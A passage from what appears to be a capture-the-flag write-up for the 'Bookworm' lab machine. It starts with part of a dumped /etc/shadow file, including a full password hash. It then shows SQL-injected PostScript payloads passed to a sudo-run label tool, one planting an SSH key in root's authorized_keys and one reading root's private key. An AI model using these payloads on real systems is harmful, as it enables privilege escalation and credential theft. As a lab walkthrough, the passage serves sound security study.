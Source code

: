     mysql:!:19387:0:99999:7:::
    fwupd-refresh:*:19479:0:99999:7:::
    _laurel:!:19480::::::
    james:$6$m07oa4vs5KUfYS/j$SjFJnikcpxhLK5wt3cOEE218N1Bfv4M3bQyhUspkepSBzefsAKCFpXbI.JS8N/p17IaYSgG0A217veas0iSC51:19513:0:99999:7:::
    

That’s file read!

### Shell

#### Via Write

With the file write POC, I can simply update it to write my public SSH key
into root’s `authorized_keys` file:

    
    
    neil@bookworm:~$ sudo genlabel '99999 UNION SELECT "0xdf)
    > 
    > /outfile (/root/.ssh/authorized_keys) (w) file def
    > outfile (ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing) writestring
    > outfile closefile
    > 
    > (test", 2,3,4,5,6,7'
    Fetching order...
    Generating PostScript file...
    Generating PDF (until the printer gets fixed...)
    Documents available in /tmp/tmpp2ccw7ubprintgen
    

Then I can SSH in as root:

    
    
    oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@bookworm.htb
    Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-167-generic x86_64)
    ...[snip]...
    root@bookworm:~#
    

And read the flag:

    
    
    root@bookworm:~# cat root.txt
    aab5a8b7************************
    

#### Via Read

One way to get a shell via read is to read the SSH key of root. Each user so
far has has a `id_eh25519` file in their `.ssh` directory. I’ll try to read
roots:

    
    
    neil@bookworm:~$ sudo genlabel '99999 UNION SELECT "0xdf)
    >                                                                     
    > /inputfile (/root/.ssh/id_ed25519) (r) file def
    > inputfile 1000 string readstring
    >                                                            
    > pop                                 
    > inputfile closefile                 
    >                                                                     
    > /outfile (output.txt) (w) file def
    > outfile exch  writestring  
    > outfile closefile        
    >                                                                     
    > (test", 2,3,4,5,6,7'      
    Fetching order...           
    Generating PostScript file... 